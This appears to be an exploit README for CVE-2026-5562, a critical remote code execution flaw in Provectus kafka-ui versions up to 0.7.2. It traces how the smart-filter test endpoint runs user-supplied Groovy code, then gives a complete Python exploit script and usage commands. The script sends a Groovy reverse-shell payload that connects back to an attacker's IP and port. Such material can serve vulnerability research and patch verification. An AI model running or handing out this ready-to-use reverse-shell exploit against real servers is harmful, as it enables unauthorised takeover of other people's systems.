






# Summary

• CVE ID: CVE-2026-5562
• Severity: Critical (CVSS score of 9.8)
• Affected Products: Provectus kafka-ui versions up to and including 0.7.2. CVE-2026-5562 is a critical remote code execution (RCE) vulnerability affecting Provectus Kafka-UI.
• Vulnerable Component: /api/smartfilters/testexecutions endpoint (validateAccess function / filterCode parameter)

# Details

The vulnerable endpoint /api/smartfilters/testexecutions is defined in \kafka-ui\kafka-ui-contract\src\main\resources\swagger\kafka-ui-api.yaml at line 628 with tag Message and id executeSmartFilterTest:


The request body uses the SmartFilterTestExecution schema at line 2721, which has filterCode, key, value, headers, offset, partition and timestampMs.



The controller for this endpoint is therefore \kafka-ui\kafka-ui-api\src\main\java\com\provectus\kafka\ui\controller\MessagesController.java and the method is executeSmartFilterTest. The request is then passed down to MessagesService::execSmartFilterTest



The filterCode from request body is passed to MessageFilters.createMsgFilter as GROOVY_SCRIPT



The script is then compiled and executed



From here, we can build an exploit that send Groovy script inside filterCode parameter of /api/smartfilters/testexecutions endpoint and get RCE on the target server.

The exploit is like so:

```python
import argparse
import requests

def valid_port(value: str) -> int:
    port = int(value)
    if not 1 <= port <= 65535:
        raise argparse.ArgumentTypeError("port must be between 1 and 65535")
    return port


def parse_args() -> argparse.Namespace:
    parser = argparse.ArgumentParser()
    parser.add_argument("--url", required=True, help="Kafka UI url")
    parser.add_argument("--ip", required=True, help="IP to receive reverse shell")
    parser.add_argument(
        "--port",
        type=valid_port,
        default=12345,
        help="Port to receive reverse shell (default: 12345)",
    )
    return parser.parse_args()

def main(args: argparse.Namespace) -> None:
    url = f"{args.url}/api/smartfilters/testexecutions"
    lhost = args.ip
    lport = args.port

    payload = {
        "filterCode": f"String host=\"{lhost}\";int port={lport};String cmd=\"sh\";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {{p.exitValue();break;}}catch (Exception e){{}}}};p.destroy();s.close();",
        "key": "k",
        "value": "v",
        "headers": {},
        "partition": 0,
        "offset": 0,
        "timestampMs": 1710000000000
    }

    print(url)
    print(payload)

    response = requests.put(url, json=payload, timeout=10, verify=False)

    response.raise_for_status()
    print(response.status_code)
    print(response.text)
    
if __name__ == "__main__":
    args = parse_args()
    main(args)
```


Usage:
```
python3 -m pip install -r requirements.txt

python3 exploit.py --url <URL to kafka-ui> --ip <IP to receive reverse shell> --port <Port to receive reverse shell>
```

